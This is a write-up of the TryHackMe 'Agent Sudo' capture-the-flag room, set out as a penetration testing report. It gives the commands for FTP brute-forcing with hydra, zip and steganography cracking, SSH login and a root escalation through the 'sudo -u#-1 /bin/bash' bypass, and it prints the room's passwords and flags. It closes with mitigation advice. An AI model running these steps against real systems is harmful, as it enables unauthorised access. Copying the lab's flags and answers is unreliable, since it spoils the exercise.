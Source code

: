# **Vulnerability Assessment and Penetration Testing (VAPT) Report – Agent Sudo**  
**Prepared by:** Nishanth Antony  
**Date:** August 21, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Steganography / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

### 1. Reconnaissance Steps  
**Objective:** Identify active hosts, open ports, services, and vulnerabilities.  
**Commands Used:**  
- `ping <target_ip>`  
- `nmap -p- --min-rate=1000 -sV <target_ip> -T4 -v`  
- `hydra -l chris -P /usr/share/wordlists/rockyou.txt <target_ip> ftp`  

**Findings:**  
- Host confirmed online via ping.  
- Open ports: FTP (21, vsftpd 3.0.3), SSH (22, OpenSSH 7.6p1), HTTP (80, Apache 2.4.29).  
- Webpage `/agent_C_attention.php` hinted at user chris with a weak password.  
- FTP enumeration revealed files: To_agentJ.txt, cute-alien.jpg, cutie.png.  

---

### 2. Exploitation Process  
**Step 1 – Web Enumeration (Port 80)**  
- Accessed `/agent_C_attention.php`: Revealed user chris with a weak password and mention of agent J.  

**Step 2 – FTP Brute-Force (Port 21)**  
- Brute-forced chris’s FTP credentials:
```bash
  hydra -l chris -P /usr/share/wordlists/rockyou.txt <target_ip> ftp
``` 
- Result: Password `crystal`.  

**Step 3 – FTP Access and File Retrieval**  
- Logged into FTP with chris:crystal:
  ```bash 
  ftp chris@<target_ip>
  ```
- Downloaded files: To_agentJ.txt, cute-alien.jpg, cutie.png.  

**Step 4 – Steganography Analysis**  
- Analyzed cutie.png with binwalk:
  ```bash
  binwalk -e cutie.png
  ```
- Found encrypted zip (8702.zip) containing To_agentR.txt.  
- Cracked zip password with john:
  ```bash
  zip2john 8702.zip > zip.hash  
  john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
  ```
- Result: Password `alien`.  
- Extracted To_agentR.txt: Revealed encoded username QXJlYTUx (base64: Area51).  
- Extracted hidden message from cute-alien.jpg using steghide:
  ```bash
  `steghide extract -sf cute-alien.jpg -p alien`
  ```
- Result: message.txt with james’s password `hackerrules!`.  

**Step 5 – SSH Access as James**  
- Logged in via SSH:  
  `ssh james@<target_ip>` with password `hackerrules!`.  
- Found user_flag.txt and Alien_autospy.jpg in /home/james.  
- user_flag.txt: `b03d975e8c92a7c04146cfa7a5a313c7`.  

**Step 6 – Privilege Escalation**  
- Checked sudo permissions:
  ```bash
  sudo -l
  ```
- Found james could run `/bin/bash` as any user except root.  
- Exploited sudo misconfiguration:
  ```bash 
  sudo -u#-1 /bin/bash
  ```
- Gained root shell and accessed /root/root.txt:  
  `b53a02f55b57d4439e3341834d70c062`.  

---

### 3. Proof of Concept (PoC)  
- **FTP Brute Force:**
  ```bash
  hydra -l chris -P /usr/share/wordlists/rockyou.txt <target_ip> ftp
  ``` 
  Obtained chris:crystal.  
- **Zip Password Cracking:**
  ```bash
  john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
  ```
  Cracked password alien.  
- **Steganography Extraction:**
  ```bash
  steghide extract -sf cute-alien.jpg -p alien
  ``` 
  Obtained james:hackerrules!.  
- **Privilege Escalation:**
  ```bash
  sudo -u#-1 /bin/bash
  ```
  Gained root access to root.txt.  

---

### 4. Privilege Escalation  
- Exploited sudo misconfiguration allowing james to run `/bin/bash` as any user except root.  
- Used `-u#-1` to bypass restriction and gain root shell.  

---

### 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Remove sensitive files like `/agent_C_attention.php`.  
  - Restrict web directory access with authentication.  
- **Authentication Security:**  
  - Enforce strong passwords for FTP and SSH.  
  - Implement multi-factor authentication.  
- **File Security:**  
  - Avoid storing sensitive data in publicly accessible FTP directories.  
  - Use strong encryption for hidden data in images.  
- **Sudo Configuration:**  
  - Restrict sudo commands to specific, necessary actions.  
  - Prevent wildcard user specifications (e.g., ALL, !root).  
- **Patch Management:**  
  - Update vsftpd, OpenSSH, and Apache to the latest versions.  
  - Monitor logs for unauthorized access attempts.  

---

### 6. Lessons Learned  
- **Weak Credentials:** Easily brute-forced passwords (e.g., crystal) enable initial access.  
- **Steganography Exposure:** Hidden data in images can leak credentials if poorly protected.  
- **Sudo Misconfiguration:** Overly permissive sudo rules allow privilege escalation.  
- **File Security:** Publicly accessible files on FTP servers are vulnerable to exploitation.  

---

### 7. Skills Practiced  
- Network scanning (`nmap`, `ping`)  
- Credential brute-forcing (`hydra`)  
- FTP enumeration and file retrieval  
- Steganography analysis (`steghide`, `binwalk`)  
- Password cracking (`john`, `zip2john`)  
- SSH access and privilege escalation  
- Secure reporting and mitigation strategies
